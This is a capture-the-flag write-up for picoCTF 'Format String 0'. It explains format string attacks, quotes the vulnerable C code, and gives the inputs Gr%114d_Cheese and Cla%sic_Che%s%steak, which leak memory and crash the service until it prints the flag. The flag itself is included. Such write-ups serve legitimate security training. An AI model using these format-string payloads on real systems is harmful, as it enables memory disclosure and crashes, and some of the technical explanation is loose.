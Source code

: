 # PicoCTF-Format String 0

## Problem Statement
"Can you use your knowledge of format strings to make the customers happy?"
This is challenge deals with the knowledge of Format Specifier Attacks .

## Thought Process
Firstly the challenge name clearly specifies how to approach this problem . After some further research on the format specifier attacks . This is what we've ended up with : A format string attack is a type of security vulnerability that can occur when a program takes user input and directly incorporates it into a format string. This can lead to unintended consequences, such as memory leaks, crashes, or even arbitrary code execution.Attackers can exploit this vulnerability by crafting malicious input that manipulates the format string to Read Arbitrary Memory. 

By using format specifiers like %x, an attacker can read the contents of specific memory addresses.
By combining this with address calculations, attackers can potentially read sensitive data like passwords, encryption keys, or even parts of the program's code. They can also Write Arbitrary Memory, Using format specifiers like %n, an attacker can write values to specific memory locations.This can lead to memory corruption, program crashes, or even arbitrary code execution. So in usual cases we can input **%x%x%x%x%x%x%x%x%x%x%x%x** and just like buffer flow , exceed the memory allocated using these format specifiers and trigger it into giving us the flag . 

## Solution
Proceeding with the execution 
```bash 
weeeing-picoctf@webshell:~$ nc mimas.picoctf.net 63634
```
We get a the following , demanding for an input :
```bash 
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
```
After Inspecting the code provided we find that in line 63:
```c
   char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
```
We can see that the format specifier follows a certain syntax colour coding , which helps us distinguish the key from others here **%144d** and the way this functions is if printf encounters %114d, it expects to print a number with a width of 114 characters. Since no number is provided, it can print some garbage data, inflating the count to 114 characters. After entering the option we get the following :

```bash 
We can see the format specifiers needed to 
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```
On inspecting the c code for this segment we find that Classic_Cheesteak stands out the most.
```c
"(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);
```
This is because of the format specifier **%s** as it usually expects a string as an argument , in this case it still tries to process the word steak which would cause the program to crash and and help us obtian the flag .

```bash
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```
## <3